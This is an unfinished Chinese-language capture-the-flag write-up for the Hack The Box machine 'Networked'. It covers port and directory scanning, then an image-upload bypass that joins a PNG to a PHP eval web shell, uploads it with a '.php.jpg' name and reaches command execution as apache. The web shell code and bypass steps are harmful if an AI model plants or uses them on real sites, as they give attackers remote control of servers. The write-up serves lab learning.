

# Networked

## 列举

我们首先枚举开放端口，然后深入到每个服务以获取更多信息

### Nmap 端口扫描



```text
root@kali:~# nmap -A 10.10.10.146
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-24 15:24 CST
Nmap scan report for 10.10.10.146
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https
Aggressive OS guesses: Linux 4.4 (90%), Crestron XPanel control system (88%), Linux 3.10 - 4.11 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 4.1 (88%), Linux 4.10 (88%), Linux 4.2 (88%), Asus RT-AC66U WAP (88%), HP P2000 G3 NAS device (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   298.22 ms 10.10.14.1
2   298.38 ms 10.10.10.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.50 seconds

```



能够发现开放web服务、ssh服务

访问首页[http://10.10.10.146](http://10.10.10.146)



```markup
root@kali:~# curl http://10.10.10.146
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->    //该处提示到 upload 和 gallery
</body>
</html>
```



### Dirb 目录爆破



```text
root@kali:~# dirb http://10.10.10.146

​
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
​
START_TIME: Thu Oct 24 15:29:12 2019
URL_BASE: http://10.10.10.146/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
​
-----------------
​
GENERATED WORDS: 4612                                                          
​
---- Scanning URL: http://10.10.10.146/ ----
==> DIRECTORY: http://10.10.10.146/backup/                                     
+ http://10.10.10.146/cgi-bin/ (CODE:403|SIZE:210)                             
+ http://10.10.10.146/index.php (CODE:200|SIZE:229)   
```



爆破网站后台，发现链接[http://10.10.10.146/backup/](http://10.10.10.146/backup/)


获取backup.tar，内部文件基本与提示相符合



查阅以上四个文件信息

### 文件上传

分析upload.php 文件上传限制



```text
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';

      displayform();
    }
```



该处对文件大小进行限制小于60000 报错，**CONTENT-LENGTH**验证



```text
    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"
];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
​
```



该处`$validext = array('.jpg', '.png', '.gif', '.jpeg');`,对上传的文件类型进行白名单限制

采用图片马上传,创建`shell.php`



```text
<?php 
    @eval($_POST['pass']);
    phpinfo(); 
?>
```





```text
root@kali:~/桌面# cat 127_0_0_3.png shell.php > hack2.php

```




通过burp修改数据包，将后缀修改为php.jpg 成功上传


访问图片马所在位置，[http://10.10.10.146/uploads/10\_10\_14\_6.php.jpg](http://10.10.10.146/uploads/10_10_14_6.php.jpg)


验证成功，使用`webshell`管理工具进行连接

## 开发

### 生根


成功连接，并且能够命令执行


当前获得apache权限，权限低于普通用户guly

当前暂无进一步提权思路，放置于此。待成功后继续编写.

